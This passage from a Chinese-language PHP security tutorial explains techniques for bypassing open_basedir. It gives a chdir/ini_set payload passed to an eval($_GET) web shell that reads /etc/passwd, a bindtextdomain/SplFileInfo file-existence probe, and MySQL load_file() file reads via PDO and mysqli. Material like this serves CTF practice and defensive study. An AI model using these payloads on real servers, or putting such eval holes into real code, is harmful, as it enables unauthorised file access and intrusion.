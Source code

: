 * **`chdir()` 与 `ini_set()` 组合绕过:**
    通过 `chdir('..')` 逐层向上跳转目录，同时使用 `ini_set('open_basedir', 'new_path')` 不断放宽限制，最终可以将 `open_basedir` 设置为 `/`，从而解除限制。
    ```php
    <?php
    // Payload: ?c=mkdir('d');chdir('d');ini_set('open_basedir','..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/etc/passwd');
    eval($_GET['c']);
    ?>
    ```

* **`bindtextdomain()` / `SplFileInfo::getRealPath()` 报错绕过 (仅判断文件存在性):**
    这些函数在处理不存在的路径时会报错，但如果路径存在，即使在 `open_basedir` 之外，也会返回路径字符串或 `false`，可以此来判断远程文件或目录是否存在。
    ```php
    <?php
    // Payload: ?dir=/etc/passwd
    var_dump(bindtextdomain('domain', $_GET['dir']));
    $info = new SplFileInfo($_GET['dir']);
    var_dump($info->getRealPath());
    ?>
    ```

---

### 17. 数据库查询读文件 🗄️

**核心原理：**

当 PHP 代码可以连接并执行数据库查询时，可以利用数据库自身的函数来读取服务器上的文件，从而绕过 PHP 层面的文件读取限制。最常用的函数是 MySQL 的 `load_file()`。

**利用示例：**

* **PDO:**
    ```php
    <?php
    try {
        $dbh = new PDO('mysql:host=localhost;dbname=test', 'user', 'pass');
        foreach($dbh->query('SELECT load_file("/etc/passwd") as f') as $row) {
            echo $row['f'];
        }
    } catch (PDOException $e) {
        // handle error
    }
    ?>
    ```

* **mysqli:**
    ```php
    <?php
    $conn = mysqli_connect("127.0.0.1", "root", "root", "test");
    $sql = "SELECT load_file('/etc/passwd') as f";
    $result = mysqli_query($conn, $sql);
    $row = mysqli_fetch_array($result);
    echo $row['f'];
    ?>
    ```

---
